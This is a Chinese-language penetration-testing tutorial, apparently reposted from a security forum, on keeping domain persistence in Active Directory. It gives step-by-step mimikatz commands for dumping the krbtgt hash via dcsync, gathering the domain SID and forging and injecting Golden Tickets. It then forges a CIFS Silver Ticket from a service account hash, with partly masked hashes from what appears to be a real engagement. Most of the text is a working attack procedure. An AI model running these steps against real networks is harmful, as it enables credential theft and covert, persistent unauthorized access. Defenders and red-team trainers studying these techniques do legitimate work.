



来源:https://xz.aliyun.com/t/8656#toc-17

## 域环境权限维持

因为在渗透的过程中，我突然发现我用的域管账号pth失败，经过`net user itadmin /domain`发现

管理员登录然后修改了这个密码。这个时候下面两种方式能很好应对这种情况。

### 黄金票据

> 在域环境中，存在一个SID为502的域账号krbtgt。krbtgt是KDC服务使用的账号,属于Domain Admins组。在域环境中，每个用户的账号票据都是由krbtgt生成的，如果攻击者拿到了krbtgt的NTLM Hash或者AES-256的值,就可以伪造域内任意用户的身份，并以该用户的身份访问其服务。

使用域的Golden Ticket(黄金票据)进行票据传递攻击时,通常需要掌握以下信息:

- 需要伪造的域管理员用户名
- 完整的域名
- 域SID
- krbtgt的NTLM Hash或AES-256的值

**1.导出krbtgt的NTLM Hash**

```
mimikatz @lsadump::dcsync /domain:pohpl.com /user:krbtgt
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20201212201842-2c738196-3c74-1.png)

2.获取域SID

```
wmic useraccount get name,sid
```

> Guest S-1-5-21-291403081-3947339614-192785736-501
>
> krbtgt S-1-5-21-291403081-3947339614-192785736-502

这里可以确定域的SID:`S-1-5-21-291403081-3947339614-192785736`

krbtgt的sid:`502`

3.查询域管理员账号

```
net group "domain admins" /domain
```

这里我选择伪造:`Aravind`

4.查询域名

```
ipconfig /all
```

获取到fqdn

5.查看当前票据并且清空

```
1.klist
2.klist purge
3.mimikatz @kerberos::purge
```

6.生成票据

```
mimikatz @kerberos::golden /admin:Aravind /domain:poxpl.com /sid:S-1-5-21-291403081-3947339614-192785736 /krbtgt:2cc650xxxxxxxxx568fe0f71b01ca /ticket:"Aravind.kiribi"

其实用aes 256也可以:
/krbtgt: -> /aes256:即可
```

执行完本地会生成一个`Aravind.kiribi`名字的文件

7.传递票据并注入内存

```
mimikatz @kerberos::ptt Aravind.kiribi
```

8.检索当前会话中的票据

```
mimikatz @kerberos::tgt
```

这个时候就代表注入成功啦,后面可以去验证下，是否有访问域控制器的权限了。

[](https://xzfile.aliyuncs.com/media/upload/picture/20201212202131-90ff2ba6-3c74-1.png)

### 白银票据

这个我用的其实比较少.还是介绍一下吧。

> Silver Ticket不用于Golden Ticket。Silver Ticket的利用过程是伪造TGS,通过已知的授权的服务密码生成一张可以访问该服务的TGT。因为在票据生成的过程中不需要使用KDC,所以可以绕过域控制器，很少留下日志。而Golden Ticket在利用过程中需要由kdc颁发TGT,并且在生成伪造的TGT的20分钟内,TGS不会对该TGT的真伪进行检验。
>
> Silver Ticket 依赖于服务账号的密码散列值，这不同于Golden Ticket利用需要使用krbtgt账号的密码散列值，因此更加隐蔽。
>
> Golden Ticket使用krbtgt账号的密码散列值，利用伪造的高权限的TGT向KDC要求颁发拥有任意服务器访问权限的票据，从而获取域控制器权限。而Silver Ticket会通过相应的服务账号来伪造TGS,例如LDAP、MSSQL、WinRM、DNS、CIFS等，范围有限，只能获取对应服务的权限。
>
> 黄金和白银最明显的区别就是:
>
> Golden Ticket是使用krbtgt账号hash加密的，而Silver Ticket是由特定的服务账号加密的。

攻击者在使用Silver Ticket对内网进行攻击时，需要掌握以下信息:

- 域名
- 域SID
- 目标服务器的FQDN
- 可利用的服务
- 服务账号的NTLM Hash
- 需要伪造的用户名

这里得说说服务账号的概念(我个人理解也不是很到位)

> 在域中，域用户可以提供服务，计算机账号也可以提供服务。因为域中的SPN只注册在用户(Users) 和 计算机(Computers)下，其中SPN是将服务实例与服务登录账户关联的。
>
> 查询所有服务账号:
>
> ```
> setspn -T DOMAINNAME -F -Q */*
> ```

下面演示下伪造CIFS的服务票据

> *Common Internet File System (CIFS) is a network filesystem protocol used for providing shared access to files and printers between machines on the network.*

1.获取cifs的服务账户

```
dcsync poXXl.com PXSERVER$
```

> 18825f30f26d1b776be64aaae7fa8f27

2.清空票据

```
klist purge
```

3.伪造票据

```
mimikatz @kerberos::golden /domain:poxl.com /sid:-1-5-21-291403081-3947339614-192785736 /target:POxxRVER.pohpl.com /service:cifs /rc4:18825f30f26d1b77xxx4aaae7fa8f27 /user:Aravind /ptt
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20201212202040-72b28c42-3c74-1.png)

4.验证权限

这个我尝试的时候发现并没有成功,可能是有其他kdc的签名验证之类,或者是机器的hash不对吧?(*)

后面我再本地再进行实验一下。

> 如果想修改成其他服务也很简单
>
> ```
> /service:LDAP
> ```